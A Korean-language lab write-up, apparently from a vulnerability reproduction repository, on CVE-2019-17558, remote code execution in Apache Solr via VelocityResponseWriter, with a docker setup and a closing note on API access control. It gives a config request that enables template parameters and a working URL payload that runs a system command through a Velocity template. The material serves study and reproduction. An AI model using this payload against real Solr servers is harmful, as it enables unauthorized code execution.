



# CVE-2019-17558

**Contributors**

-   [박건호(@ian9292)](https://github.com/ian9292)
-   [오훈(@55hnnn)](http://github.com/55hnnn)

<br/>

### 요약

-   Solr은 Apache Lucene(TM) 기반의 오픈 소스 엔터프라이즈 검색 플랫폼.
-   Apache Solr 5.0.0에서 Apache Solr 8.3.1은 VelocityResponseWriter를 통한 Remote Code Execution에 취약함.
-   Velocity 템플릿은 `velocity/` 디렉토리 또는 파라미터를 통해 제공될 수 있는데, 여기에 악의적인 템플릿이 포함될 수 있음
-   파라미터를 통한 템플릿은 기본적으로 사용할 수 없지만, 해당 설정을 `True`로 설정한 요청을 보내면 활성화가 가능함.
<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json`API에 접속하여 solr core의 이름을 확인함.

-   `params.resource.loader.enabled`옵션이 활성화 되어있어야 함. `/solr/[core_name]/config` API를 통해 해당 옵션을 확인. 만약, 비활성화 되어있을 경우, 다음 요청을 통해 해당 옵션을 활성화

```
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```



- Velocity Template에 의한 취약점을 트리거함
```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

<br/>

### 결과



<br/>

### 정리

-   이 취약점은 공격자가 접근 제어가 이루어지지 않은 API를 통해 solr 서버의 설정을 임의로 구성하여 RCE가 가능했음. API 액세스 권한을 적절히 적용하여 공격자가 임의로 설정을 변경할 수 없도록 주의해야 함.
